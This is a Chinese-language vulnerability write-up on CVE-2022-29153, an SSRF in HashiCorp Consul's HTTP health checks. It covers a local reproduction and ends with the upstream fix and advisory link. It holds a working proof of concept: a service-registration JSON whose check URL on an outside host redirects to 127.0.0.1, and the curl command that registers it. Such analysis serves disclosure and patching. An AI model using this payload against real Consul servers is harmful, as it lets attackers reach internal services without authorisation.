




# CVE-2022-29153 consul SSRF

## 漏洞信息
- 漏洞类型：SSRF
- 漏洞版本：< 1.9.17，>= 1.10.0, < 1.10.10，>= 1.11.0, < 1.11.5
- 漏洞简介：http类型的health_check被重定向导致的SSRF

## repo介绍
consul是一个用go语言编写的分布式应用管理服务器，目前在github上以及有24.7k个star

## 漏洞分析
consul提供了对于服务的health_check能力。首先安装一个漏洞版本的consul
```bash
curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
sudo apt-get update && sudo apt-get install consul=1.10.9
```
然后启动一个consul服务器
```bash
consul agent -dev -enable-script-checks -node=web -ui
```
访问`http://localhost:8500/`可以看到consul的界面



编写一个`ssrf.json`作为poc，里面标志的http地址会将请求302重定向到`127.0.0.1:80`
```json
{
  "ID": "ssrf",
  "name": "ssrf",
  "port": 5001,
  "check": {
    "checkid": "ssrf_check",
    "name": "Check ssrf",
    "http": "http://fuzz.red/ssrf/127.0.0.1/",
    "method": "GET",
    "interval": "10s",
    "timeout": "1s"
  }
}
```
使用如下指令将`health_check`注册到consul服务器
```sh
curl --request PUT --data @ssrf.json http://127.0.0.1:8500/v1/agent/service/register
```
可以看到添加成功



这时consul会主动运行`health_check`，请求被302重定向到内网，导致了SSRF。可以看到nc也收到了请求



## 修复方式
在[agent/config.go](https://github.com/hashicorp/consul/blob/928fefd2a7ee5ae8d90377514ec2022ee9730be0/agent/config/config.go#L391)中添`加DisableRedirects`字段，可以在服务器端配置，关闭`health_check`的重定向



## 参考链接
- https://github.com/advisories/GHSA-q6h7-4qgw-2j9p